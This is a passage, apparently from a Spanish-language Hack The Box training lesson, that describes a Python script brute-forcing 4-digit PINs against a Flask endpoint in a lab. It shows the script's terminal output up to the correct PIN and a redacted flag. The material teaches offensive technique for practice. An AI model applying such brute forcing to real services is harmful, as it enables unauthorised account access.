 
El script de Python itera sistemáticamente todos los PIN de 4 dígitos posibles (0000 a 9999) y envía solicitudes GET al punto final de Flask con cada PIN. Verifica el código de estado de respuesta y el contenido para identificar el PIN correcto y capturar el indicador asociado.

<div class="window_container"><div class="window_content">
                      <div class="window_top">
                          <span class="window_dot bg-danger"></span>
                          <span class="window_dot bg-warning"></span>
                          <span class="window_dot bg-success"></span>
                          <span class="window_title">Brute Force Attacks</span>
                      </div>
                  <pre class=" language-shell-session" style="line-height: 0px;"><code class=" language-shell-session"><span class="token output"><span class="text-gray">1i8n@htb</span><span class="text-success">[/htb]</span></span><span class="token command"><span class="token shell-symbol important">$</span> <span class="token bash language-bash">python pin-solver.py</span></span>

<span class="token output">...
Attempted PIN: 4039
Attempted PIN: 4040
Attempted PIN: 4041
Attempted PIN: 4042
Attempted PIN: 4043
Attempted PIN: 4044
Attempted PIN: 4045
Attempted PIN: 4046
Attempted PIN: 4047
Attempted PIN: 4048
Attempted PIN: 4049
Attempted PIN: 4050
Attempted PIN: 4051
Attempted PIN: 4052
Correct PIN found: 4053
Flag: HTB{...}
</span></code></pre></div></div>

El resultado del script mostrará la progresión del ataque de fuerza bruta, mostrando cada PIN intentado y su resultado correspondiente. El resultado final revelará el PIN correcto y la bandera capturada, demostrando la finalización exitosa del ataque de fuerza bruta.
